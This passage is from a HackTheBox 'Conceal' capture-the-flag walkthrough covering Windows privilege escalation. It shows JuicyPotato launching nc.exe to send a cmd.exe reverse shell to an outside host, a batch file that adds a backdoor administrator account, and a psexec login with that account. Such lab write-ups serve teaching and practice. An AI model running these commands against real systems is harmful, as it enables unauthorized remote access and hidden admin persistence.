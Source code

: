 - `.\JuicyPotato.exe -t "*" -p nc.exe -a "-e cmd.exe 10.10.16.5 1234" -l 9001 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2030.png)
    

I'll create a script to create a user, etc.

- `upgradeshell.bat`
    
    ```conf
    net user /add hendrich 12345678a@
    net localgroup Administrators hendrich /add
    ```
    
- `.\JuicyPotato.exe -t "*" -p ".\upgradeshell.bat" -l 9001 -c "{5B3E6773-3A99-4A3D-8096-7765DD11785C}"`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2031.png)
    

Let's check if it was created.

- `net users`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2032.png)
    

### Psexec

Let's use psexec to enter the server.

- `python3 /usr/local/bin/psexec.py [hendrich@10.10.10.116](mailto:hendrich@10.10.10.116)`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2033.png)
    